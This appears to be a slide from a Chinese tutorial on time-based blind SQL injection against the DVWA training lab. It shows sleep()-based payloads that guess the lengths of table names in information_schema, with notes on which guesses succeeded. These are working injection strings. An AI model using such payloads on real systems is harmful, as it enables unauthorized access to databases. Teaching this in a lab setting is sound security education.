

# 猜解表的长度
1’ and if(length(substr((select table_name from information_schema.tables where table_schema=‘dvwa’ limit 0,1),1))=1,sleep(5),1)#
失败
1’ and if(length(substr((select table_name from information_schema.tables where table_schema=‘dvwa’ limit 0,1),1))=9,sleep(5),1)#
成功，说明第一个表为9位
1’ and if(length(substr((select table_name from information_schema.tables where table_schema=‘dvwa’ limit 1,1),1))=5,sleep(5),1) #
成功，说明是5
44
2022/6/11